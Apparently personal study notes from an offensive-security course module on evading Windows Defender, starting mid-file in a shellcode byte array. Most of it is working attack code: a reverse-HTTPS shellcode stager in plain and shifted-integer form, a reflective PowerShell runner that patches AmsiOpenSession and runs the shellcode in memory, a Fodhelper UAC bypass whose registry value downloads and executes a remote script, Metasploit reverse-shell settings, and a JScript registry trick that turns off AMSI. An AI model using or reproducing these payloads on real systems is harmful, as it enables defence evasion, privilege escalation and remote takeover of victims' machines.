x53,0x44,0x70,0x4e,0x50,0x35,0x6d,0x6f,0x35,0x65,0x6f,0x4f,0x43,0x6e,0x2d,0x33,0x7a,0x41,0x64,0x57,0x66,0x50,0x4a,0x72,0x4b,0x31,0x4f,0x77,0x68,0x73,0x2d,0x39,0x4f,0x79,0x6c,0x31,0x6b,0x59,0x70,0x56,0x41,0x51,0x41,0x72,0x51,0x75,0x35,0x75,0x58,0x6b,0x52,0x74,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5
Write-Host $buf2
[int []]$buf = 252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,81,86,72,49,210,101,72,139,82,96,72,139,82,24,72,139,82,32,77,49,201,72,139,114,80,72,15,183,74,74,72,49,192,172,60,97,124,2,44,32,65,193,201,13,65,1,193,226,237,82,65,81,72,139,82,32,139,66,60,72,1,208,102,129,120,24,11,2,15,133,114,0,0,0,139,128,136,0,0,0,72,133,192,116,103,72,1,208,80,68,139,64,32,73,1,208,139,72,24,227,86,77,49,201,72,255,201,65,139,52,136,72,1,214,72,49,192,172,65,193,201,13,65,1,193,56,224,117,241,76,3,76,36,8,69,57,209,117,216,88,68,139,64,36,73,1,208,102,65,139,12,72,68,139,64,28,73,1,208,65,139,4,136,65,88,72,1,208,65,88,94,89,90,65,88,65,89,65,90,72,131,236,32,65,82,255,224,88,65,89,90,72,139,18,233,75,255,255,255,93,72,49,219,83,73,190,119,105,110,105,110,101,116,0,65,86,72,137,225,73,199,194,76,119,38,7,255,213,83,83,72,137,225,83,90,77,49,192,77,49,201,83,83,73,186,58,86,121,167,0,0,0,0,255,213,232,13,0,0,0,49,48,46,49,48,46,49,51,56,46,49,48,0,90,72,137,193,73,199,192,91,17,0,0,77,49,201,83,83,106,3,83,73,186,87,137,159,198,0,0,0,0,255,213,232,253,0,0,0,47,107,82,80,112,83,49,71,114,103,66,53,81,69,49,69,82,77,115,101,106,84,81,114,87,50,102,119,95,45,74,80,95,90,90,119,82,104,51,82,52,52,77,102,97,89,121,110,116,48,66,118,73,102,80,48,105,66,83,57,84,67,107,90,101,87,112,112,66,74,102,88,100,80,101,56,52,101,72,48,83,108,114,87,80,102,84,74,74,101,112,77,120,99,104,69,52,110,76,122,54,65,106,76,76,101,110,82,88,66,73,66,87,48,81,71,117,89,69,114,45,80,72,115,48,104,80,117,84,51,112,115,90,100,99,110,80,107,106,100,120,53,103,84,80,102,121,90,53,99,82,97,70,95,117,71,109,71,83,88,104,75,75,70,110,76,75,119,74,101,112,112,77,108,84,51,68,118,87,57,86,55,97,57,78,95,57,54,99,119,116,113,117,108,117,97,118,75,116,45,83,99,71,115,75,114,69,73,90,55,79,80,74,70,104,121,74,85,100,103,119,118,77,83,48,103,55,107,71,114,84,65,119,72,100,99,78,57,69,102,122,65,71,87,48,111,82,121,107,103,51,73,0,72,137,193,83,90,65,88,77,49,201,83,72,184,0,50,168,132,0,0,0,0,80,83,83,73,199,194,235,85,46,59,255,213,72,137,198,106,10,95,72,137,241,106,31,90,82,104,128,51,0,0,73,137,224,106,4,65,89,73,186,117,70,158,134,0,0,0,0,255,213,77,49,192,83,90,72,137,241,77,49,201,77,49,201,83,83,73,199,194,45,6,24,123,255,213,133,192,117,31,72,199,193,136,19,0,0,73,186,68,240,53,224,0,0,0,0,255,213,72,255,207,116,2,235,170,232,85,0,0,0,83,89,106,64,90,73,137,209,193,226,16,73,199,192,0,16,0,0,73,186,88,164,83,229,0,0,0,0,255,213,72,147,83,83,72,137,231,72,137,241,72,137,218,73,199,192,0,32,0,0,73,137,249,73,186,18,150,137,226,0,0,0,0,255,213,72,131,196,32,133,192,116,178,102,139,7,72,1,195,133,192,117,210,88,195,88,106,0,89,187,224,29,42,10,65,137,218,255,213
for ($i=0; $i -lt $buf.Length; $i++)
{
    $buf[$i] = $buf[$i] + 10
}
Write-Host ($buf -join ",")

[Byte[]] $buf1 = New-Object Byte[] $buf.Length

Write-Host $buf1[700]

for ($i=0; $i -lt $buf.Length; $i++)
{
#Write-host $i
    #$buf[$i] = $buf[$i] - 10
    $buf1[$i] = ($buf[$i] - 10)
} 


Write-Host '{0;x}' -f $buf1   

               

$bytes = 0,54,0,48,0,49,0,99,0,48,0,98,0,97,0,45,0,50,0,50,0,97,0,57,0,45,0,49,0,49,0,101
$hexString = ($bytes|ForEach-Object ToString X2) -join ''
Write-Host $hexString

```

The amsi bypass combined example

```ps1
<#$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};
$d=$c.GetFields('NonPublic,Static');
Foreach($e in $d) {if ($e.Name-like "*Context") {$f=$e}};
$g=$f.GetValue($null);
[IntPtr]$ptr=$g;
[Int32[]]$buf =@(0);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)#>

function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { 
        $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp=@()
        $assem.GetMethods() | ForEach-Object {
            If($_.Name -eq "GetProcAddress") {
                $tmp+=$_}
            }
            return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
 }
 function getDelegateType {
    Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
    )

    $type = [AppDomain]::CurrentDomain.
 DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
 [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
 DefineDynamicModule('InMemoryModule', $false).
 DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
 [System.MulticastDelegate])

 $type.
 DefineConstructor('RTSpecialName, HideBySig, Public', 
[System.Reflection.CallingConventions]::Standard, $func).
 SetImplementationFlags('Runtime, Managed')

 $type.
 DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
 SetImplementationFlags('Runtime, Managed')

 return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
<#
$VirtualAllocAddr = LookupFunc kernel32.dll VirtualAlloc
$VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) 
([IntPtr])
$VirtualAlloc = 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
$lpMem = $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
#Write-Output $VirtualAlloc#>
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
Write-Output $lpMem

#[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x44,0x8b,0x40,0x20,0x8b,0x48,0x18,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x41,0x58,0x48,0x1,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xd,0x0,0x0,0x0,0x31,0x30,0x2e,0x31,0x30,0x2e,0x31,0x33,0x38,0x2e,0x31,0x30,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5b,0x11,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x53,0x0,0x0,0x0,0x2f,0x51,0x52,0x52,0x65,0x37,0x4d,0x4d,0x64,0x5f,0x70,0x6f,0x73,0x6f,0x53,0x32,0x6a,0x54,0x68,0x72,0x6a,0x48,0x51,0x36,0x46,0x4d,0x4e,0x4b,0x31,0x43,0x53,0x44,0x70,0x4e,0x50,0x35,0x6d,0x6f,0x35,0x65,0x6f,0x4f,0x43,0x6e,0x2d,0x33,0x7a,0x41,0x64,0x57,0x66,0x50,0x4a,0x72,0x4b,0x31,0x4f,0x77,0x68,0x73,0x2d,0x39,0x4f,0x79,0x6c,0x31,0x6b,0x59,0x70,0x56,0x41,0x51,0x41,0x72,0x51,0x75,0x35,0x75,0x58,0x6b,0x52,0x74,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5

[int[]] $buf1 = 262,82,141,238,250,242,214,10,10,10,75,91,75,90,92,91,96,82,59,220,111,82,149,92,106,82,149,92,34,82,149,92,42,87,59,211,82,149,124,90,82,25,193,84,84,82,59,202,182,70,107,134,12,54,42,75,203,211,23,75,11,203,236,247,92,75,91,82,149,92,42,149,76,70,82,11,218,112,139,130,34,21,12,25,143,124,10,10,10,149,138,146,10,10,10,82,143,202,126,113,82,11,218,90,78,149,74,42,83,11,218,149,82,34,237,96,87,59,211,82,265,211,75,149,62,146,82,11,224,82,59,202,182,75,203,211,23,75,11,203,66,234,127,251,86,13,86,46,18,79,67,219,127,226,98,78,149,74,46,83,11,218,112,75,149,22,82,78,149,74,38,83,11,218,75,149,14,146,75,98,82,11,218,75,98,104,99,100,75,98,75,99,75,100,82,141,246,42,75,92,265,234,98,75,99,100,82,149,28,243,85,265,265,265,103,82,59,229,93,83,200,129,115,120,115,120,111,126,10,75,96,82,147,235,83,209,204,86,129,48,17,265,223,93,93,82,147,235,93,100,87,59,202,87,59,211,93,93,83,196,68,96,131,177,10,10,10,10,265,223,242,23,10,10,10,59,58,56,59,58,56,59,61,66,56,59,58,10,100,82,147,203,83,209,202,101,27,10,10,87,59,211,93,93,116,13,93,83,196,97,147,169,208,10,10,10,10,265,223,242,263,10,10,10,57,117,92,90,122,93,59,81,124,113,76,63,91,79,59,79,92,87,125,111,116,94,91,124,97,60,112,129,105,55,84,90,105,100,100,129,92,114,61,92,62,62,87,112,107,99,131,120,126,58,76,128,83,112,90,58,115,76,93,67,94,77,117,100,111,97,122,122,76,84,112,98,110,90,111,66,62,111,82,58,93,118,124,97,90,112,94,84,84,111,122,87,130,109,114,79,62,120,86,132,64,75,116,86,86,111,120,92,98,76,83,76,97,58,91,81,127,99,79,124,55,90,82,125,58,114,90,127,94,61,122,125,100,110,109,120,90,117,116,110,130,63,113,94,90,112,131,100,63,109,92,107,80,105,127,81,119,81,93,98,114,85,85,80,120,86,85,129,84,111,122,122,87,118,94,61,78,128,97,67,96,65,107,67,88,105,67,64,109,129,126,123,127,118,127,107,128,85,126,55,93,109,81,125,85,124,79,83,100,65,89,90,84,80,114,131,84,95,110,113,129,128,87,93,58,113,65,117,81,124,94,75,129,82,110,109,88,67,79,112,132,75,81,97,58,121,92,131,117,113,61,83,10,82,147,203,93,100,75,98,87,59,211,93,82,194,10,60,178,142,10,10,10,10,90,93,93,83,209,204,245,95,56,69,265,223,82,147,208,116,20,105,82,147,251,116,41,100,92,114,138,61,10,10,83,147,234,116,14,75,99,83,196,127,80,168,144,10,10,10,10,265,223,87,59,202,93,100,82,147,251,87,59,211,87,59,211,93,93,83,209,204,55,16,34,133,265,223,143,202,127,41,82,209,203,146,29,10,10,83,196,78,250,63,234,10,10,10,10,265,223,82,265,217,126,12,245,180,242,95,10,10,10,93,99,116,74,100,83,147,219,203,236,26,83,209,202,10,26,10,10,83,196,98,174,93,239,10,10,10,10,265,223,82,157,93,93,82,147,241,82,147,251,82,147,228,83,209,202,10,42,10,10,83,147,259,83,196,28,160,147,236,10,10,10,10,265,223,82,141,206,42,143,202,126,188,112,149,17,82,11,205,143,202,127,220,98,205,98,116,10,99,197,234,39,52,20,75,147,228,265,223

[Byte[]] $buf = New-Object Byte[] $buf1.Length
for ($i=0; $i -lt $buf.Length; $i++)
{

    $buf[$i] = ($buf1[$i] - 10)
} 

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], 
[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

### 7.4.2.1 Exercises
1. Recreate the bypass shown in this section by both entering the commands directly in the 
command prompt and by downloading and executing them as a PowerShell script from your 
Kali Linux Apache web server.
2. Incorporate this bypass into a VBA macro where PowerShell is launched through WMI to 
bypass both the Windows Defender detection on the Microsoft Word document and the 
AMSI-based detection.

### 7.4.2.2 Extra Mile Exercise
Create a similar AMSI bypass but instead of modifying the code of AmsiOpenSession, find a 
suitable instruction to change in AmsiScanBuffer and implement it from reflective PowerShell.

# UAC bypass vs Microsoft Defender

 This case study leverages a UAC386 bypass that abuses the 
Fodhelper.exe application.

# FODHelper UAC bypass

FODHelper tries to access
`HKCU:\Software\Classes\ms-settings\shell\open\command`

If our exploit creates the registry path and sets the (Default) value to an executable (like powershell.exe), it will be spawned as a high integrity process when Fodhelper is started.

simulated in this powershell code

(while running this this somehow disabled the visutal windows security app)

and now I have to reset my pc





```
 New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force 

C:\Windows\System32\fodhelper.exe
```

The first command creates the registry path through the New-Item cmdlet388 and the -Path
option. Additionally, it sets the value of the default key to “powershell.exe” through the -Value
option while the -Force flag suppresses any warnings.

In the second command, the DelegateExecute value is created through the similar New-ItemProperty cmdlet,389 again using the -Path option along with the -Name option to specify the 
value and the -PropertyType option to specify the type of value, in this case a String.

Finally, fodhelper.exe is started to launch the high-integrity PowerShell prompt

Based on the highlighted section of Figure 89, the PowerShell prompt is running in high integrity.
This is obviously only a simple proof-of-concept but it has been weaponized by exploitation 
frameworks including Metasploit so let’s test it out.

when testing fodhelper opens with no powershell

fodhelper is also available in meterpreter
```sh
use exploit/windows/local/bypassuac_fodhelper
show targets
set target 1
sessions -l
set session 1
set payload windows/x64/meterpreter/reverse_https
set lhost 10.10.6.12
set lport 4444
exploit
```

### 7.5.1.1 Exercises
1. Manually run the Fodhelper UAC bypass with the PowerShell commands listed in this 
section.
2. Attempt the Fodhelper UAC bypass in Metasploit to trigger the detection. It may be required 
to revert the machine between bypass attempts.

not able to run powershell using this technique
runs with administrator privileges

# improving fodhelper

triggers AMSI, so we must improve our tradecraft and develop a UAC bypass that also evades 
AMSI.
Registry key names are limited to 255 characters, registry value names are limited to 16383 
characters, and the value itself is only limited by the available system memory.390 This means the 
registry value can contain both an AMSI bypass and our PowerShell shellcode runner

```ps1
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object 
System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX" -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe
```

Starting EnableStageEncoding option in StageEncoder in metasploit

```
set EnableStageEncoding true
set StageEncoder x64/zutto_dekiru
exploit
```


### 7.5.2.1 Exercises
1. Recreate the UAC bypass while evading AMSI with any of the AMSI bypasses

2. Use a compiled C# assembly instead of a PowerShell shellcode runner to evade AMSI and 
bypass UAC.

# Bypassing AMSI in JScript

trying to evade amsi through DotNetToJscript scripy

# detecting amsi api flow

using frida trace

run sleeper.js and run 
frida-trace -p 9392 -x amsi.dll -i Amsi*

### 7.6.1.1 Exercise
1. Perform the hooking of wscript.exe with Frida and locate the malicious detection by AMSI 
and Windows Defender

was able to run with onl real time protection on

# Is that your registry key

in order to use DotNetToJscript code we need to bypass AMSI.
it was discovered that there isa AMSI enable key. If this key is set to 0 then AMSI is not enabled for the Jscript process.

debugging with windbg 

we need to provide full path of the wscript.exe
and then also provide full path of sleeper.js

we find the exact registry key we need to modify

"SOFTWARE\Microsoft\Windows Script\Settings"

so we use this script to disable AMSI

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
sh.RegWrite(key, 0, "REG_DWORD");
```

the full code excluding the shellcode runner itself for bypassing AMSi

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
 var AmsiEnable = sh.RegRead(key);
 if(AmsiEnable!=0){
 throw new Error(1, '');
 }
}catch(e){
 sh.RegWrite(key, 0, "REG_DWORD");
 sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}
"+WScript.ScriptFullName,0,1);
 sh.RegWrite(key, 1, "REG_DWORD");
 WScript.Quit(1);
}

```
As highlighted in Listing 323, we supply an additional two arguments to the Run method after the 
script file. The first is the windows style where “0” specifies that the window be hidden. For the 
second argument, we specify “1”, which will cause execution to wait for the script executed by the 
Run method to be completed.
With this bypass in place, we can prepend it to the DotNetToJscript-generated shellcode runner. 
When we run it, we bypass AMSI and generate a reverse shell

### 7.6.2.1 Exercises

1. Set the registry key and check that AMSI is bypassed.

  

2. Combine the AMSI bypass with the shellcode runner, writing fully-weaponized client-side 
code execution with Jscript.

at amsi_bypass.js

3. Experiment with SharpShooter to generate the same type of payload with an AMSI bypass

sharpshooter doesn't work.


